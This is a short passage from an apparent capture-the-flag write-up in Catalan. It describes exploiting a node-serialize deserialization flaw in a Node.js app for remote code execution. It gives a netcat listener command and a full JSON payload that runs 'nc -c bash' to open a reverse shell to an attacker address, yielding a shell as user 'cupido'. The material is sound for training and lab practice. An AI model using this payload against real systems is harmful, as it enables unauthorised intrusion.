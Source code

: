 ![alt text](../../../assets/images/token-of-love/image-9.png)

Más información sobre esta técnica:

- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
- https://hacktricks.boitatech.com.br/pentesting-web/deserialization#node-serialize
- https://www.exploit-db.com/exploits/45265
- https://www.exploit-db.com/exploits/49552
- https://www.exploit-db.com/exploits/50036

Ens posem a l'espera d'una revshell amb netcat al port 12345.

```bash
nc -lvnp 12345
```

Enviem el següent payload mitjançant Burp Suite.

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('nc -c bash 192.168.1.116 12345', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```

Obtenim una shell com l'usuari `cupido`.
